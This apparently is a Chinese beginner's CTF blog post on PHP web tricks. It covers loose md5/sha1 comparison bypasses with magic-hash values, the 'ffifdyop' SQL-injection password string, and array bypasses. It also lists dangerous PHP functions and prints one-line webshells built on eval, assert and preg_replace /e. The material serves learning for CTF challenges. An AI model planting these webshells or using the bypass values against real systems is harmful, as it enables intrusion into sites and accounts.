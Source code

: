 ## 新生第一步，认识md5（five）
例题：
```php
<?php 
 highlight_file(__FILE__);
 include 'flag2.php';
 
if (isset($_GET['name']) && isset($_POST['password'])){
    $name = $_GET['name'];
    $password = [$_POST['password'];](url)
    if ($name != $password && md5($name) == md5($password)){
        echo $flag;
    }
    else {
        echo "wrong!";
    }
 
}
else {
    echo 'wrong!';
}
?> 
```
如例题所示，要求传入的是两个参数，post一个password，get一个name,要求两个东西的参数内容不一样，但是md5的值要一样，看似是不可能的，但是，md5其实早已被前人们给创烂了，md5的对撞已经不是很难完成，但是，这里用的并不是md5的对撞，而是php语言的妙妙小特性：
在md5化之后，如果数据以0e加纯数字结尾，会被直接解析为0，以此达到相等的结果,这里贴出一些值:
240610708:0e462097431906509019562988736854
QLTHNDT:0e405967825401955372549139051580
QNKCDZO:0e830400451993494058024219903391
PJNPDWY:0e291529052894702774557631701704
NWWKITQ:0e763082070976038347657360817689
NOOPCJF:0e818888003657176127862245791911
MMHUWUV:0e701732711630150438129209816536
MAUXXQC:0e478478466848439040434801845361

这里还有经过两次md5后值还相同的：
7r4lGXCH2Ksu2JNT3BYM
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk

自己等于自己md5的：
0e215962017

同理，还有一种加密算法sha1也有这样的问题，这里一并贴出：
10932435112: 0e07766915004133176347055865026311692244
aaroZmOk: 0e66507019969427134894567494305185566735
aaK1STfY: 0e76658526655756207688271159624026011393
aaO8zKZF: 0e89257456677279068558073954252716165668
aa3OFF9m: 0e36977786278517984959260394024281014729
0e1290633704: 0e19985187802402577070739524195726831799

还有一种很罕见的
NAN绕过，在处理时发生错误

sql注入相关：
md5后值是万能密码：ffifdyop

还有md5值和sha1相等的参考极客大挑战2024的题

这是第一种打法
那么，主播主播，找特殊值还是太困难了，有没有更简单更强势的打法呢？


有的兄弟，有的，像这么强势的打法不止这一种（bushi


介绍大名鼎鼎的数组绕过：
管他什么name[]=1password[]=2直接秒了，但是以后大概是没有这么顺利的题了

## 二、一些敏感的函数：
eval()
system()
assert()
exec()
preg_replace()
shell_exec()
call_user_func()
passthru()
array_map()
popen()
这些函数都是常见的敏感函数，容易造成一些危险的漏洞
[当然也是很重要的考点，其具体作用参考](https://zhuanlan.zhihu.com/p/622502997)

这些是一个笼统的记录，他们有不同的危险特色：
###1、代码执行系
这些函数能够执行一些php的代码，造成危险，同时是flag的获取点
#### eval()
大名鼎鼎，臭名昭著。一句话木马常客一号。
```php
<?php @eval($_POST['shell']);?>
```
#### assert()
同样是很敏感的东西，一句话木马常客二号
```php
<?php assert(@$_POST['shell']); ?>
```
#### preg_replace()
这个不太常用，当匹配模式/e时，该函数会将$replacement作为php代码执行
贴一份对应一句话木马
```php
preg_replace("/test/e",$_GET["shell"],"just test");
```
剩下几个使用范围较少，有的甚至已经被弃用了，这里就不做介绍了：
create_function()  (**在php7.2.0后被废弃**)
array_map()
call_user_func()
call_user_func_array()
array_filter()

### 2、命令执行系

###### 今天的博客先写到这里吧QWQ